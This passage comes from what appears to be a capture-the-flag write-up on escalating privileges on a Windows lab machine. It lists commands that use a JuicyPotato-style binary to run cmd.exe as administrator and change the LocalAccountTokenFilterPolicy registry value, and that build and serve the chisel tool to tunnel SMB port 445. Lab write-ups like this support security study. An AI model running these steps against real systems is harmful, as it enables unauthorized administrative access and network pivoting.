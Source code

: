
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

There must be many methods to escalate privileges, since I can now inject commands impersonating the **administrator** user account, but I will take advantage that port **445** of the **SMB** service is open locally and with **[jpillora's](https://github.com/jpillora/chisel){:target="_blank"}** `chisel` tool I can set up a tunnel from my local port **445** to the victim's port. After building with `go` and compressing with `upx` the `chisel` executable, I continue with downloading the version of it but for the **Windows** machine and transfer it. Both executables work correctly on both machines so I can now configure the server and the client to create the tunnel, with `lsof` and `crackmapexec` I validate that everything is configured correctly.

> **Victime Machine**:

```cmd
.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"

netstat -ano
```

> **Attacker Machine**:

```bash
git clone https://github.com/jpillora/chisel
cd chisel
go build -ldflags '-s -w' .
du -hc chisel
# 8.6M  total
upx chisel
du -hc chisel
# 3.5M  total

mv /home/al3j0/Downloads/chisel_1.7.2_windows_amd64.gz ./
gunzip chisel_1.7.2_windows_amd64.gz
file chisel.exe
python3 -m http.server 80
```
